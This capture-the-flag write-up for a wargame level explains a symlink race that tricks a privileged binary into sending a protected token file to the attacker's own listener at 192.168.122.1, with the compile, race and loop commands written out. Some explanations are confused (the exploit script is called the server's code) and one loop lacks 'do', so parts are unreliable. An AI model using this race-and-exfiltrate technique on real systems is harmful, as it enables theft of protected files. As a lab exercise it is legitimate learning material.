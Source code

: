 # Level10 Write-up

## Objective:

The goal of this level was to establish a server, exploit a vulnerability to gain access, and retrieve the flag.

## Step-by-step process:

### Step 1: Compiling a Miniserver

The first step was to compile a `miniserv.c` file to create an executable:

```bash
cc miniserv.c -o a.out
```

### Step 2: Running the Server

Next, I ran the compiled server in a loop using the following command:

```bash
while true; do ./a.out; done
```

This continuously ran the server, keeping it alive for further exploitation.

### Step 3: Analyzing the Vulnerability

Upon inspecting the code, I noticed that it opened a connection and used a temporary file (`/tmp/test`). The server appeared to be vulnerable to symbolic link attacks or file manipulation. The relevant part of the code was:

```bash
#!/bin/bash

rm /tmp/test
touch /tmp/test
/home/user/level10/level10 /tmp/test 192.168.122.1 & rm /tmp/test && ln -s /home/user/level10/token /tmp/test
```

### Step 4: Exploiting the Vulnerability

I exploited this by using a combination of commands. The goal was to create the necessary symbolic link and ensure that the server was triggered correctly.

First, I created the necessary `script.sh` file that would continuously run and trigger the vulnerability:

```bash
while true; /tmp/script.sh; done
```

This would execute the necessary steps in the background, creating a symbolic link from `/tmp/test` to `/home/user/level10/token`.

### Step 5: Triggering the Vulnerability and Retrieving the Flag

Once the exploit was in place, the server accepted the connection, and I was able to access the `token` file through the symbolic link and retrieve the flag.
